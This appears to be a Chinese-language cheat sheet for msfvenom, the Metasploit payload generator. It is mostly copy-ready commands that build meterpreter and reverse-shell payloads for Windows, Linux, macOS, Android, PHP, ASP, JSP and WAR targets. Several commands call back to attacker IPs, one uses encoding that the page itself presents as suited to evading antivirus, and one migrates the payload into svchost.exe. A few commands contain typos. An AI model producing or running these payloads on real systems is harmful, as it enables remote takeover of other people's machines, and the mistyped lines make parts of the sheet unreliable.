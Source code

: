 # msfvemon 

如果tcp不行换协议
reverse_tcp
reverse_http

常用参数
- 比如想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项,可以使用
msfvenom -p windows/meterpreter/reverse_tcp --list-options
- msfvenom --list payloads可查看所有payloads
- msfvenom --list encoders可查看所有编码器
  - 评级最高的两个encoder为 cmd/powershell_base64 和 x86/shikata_ga_nai,其中 x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器
类似可用 msfvenom--list 命令查看的还有payloads,encoders,nops,platforms,archs,
encrypt,formats

## filter payloads list
```bash
# filter php
msfvenom -l payloads | grep "php" | awk '{print $1}'
```


## payload的可持续化
- 自动迁移到进程
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe
```

- 生成的shell程序执行后会启动两个进程shell.exe和svchost.exe,关闭其中一个不会影响会话状态.
在上面的生成payload参数中:
- (1) PrependMigrate＝true PrependMigrateProc＝svchost．exe 使这个程序默认会迁移到
svchost.exe进程,自己测试的时候不建议到这个进程而是其他的持久进程.
- (2)使用-p指定使用的攻击载荷模块,使用-e指定使用x86／shikata_ga_nai编码器,使用-f选项告
诉MSF编码器输出格式为exe,-o选项指定输出的文件名为payload.exe,保存在根自录下.

## 各平台的 payload
https://micro8.gitbook.io/micro8/contents-1/1-10/10msfvenom-chang-yong-sheng-cheng-payload-ming-ling
```bash
# Linux
msfyenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -a x86 --platform Linux -f elf > shell.elf
# Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=1234 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1234 -f exe > shell.exe
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=$ip LPORT=1234  -f raw -o payload.ps1

# Mac
msfyenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho>shell.macho
# Android
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 R > test.apk
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.80.103 LPORT=1123 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php' | tr-d '\n'>shell.php && pbpaste >> shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YourP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f raw > shell.jsp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f war > shell.war
```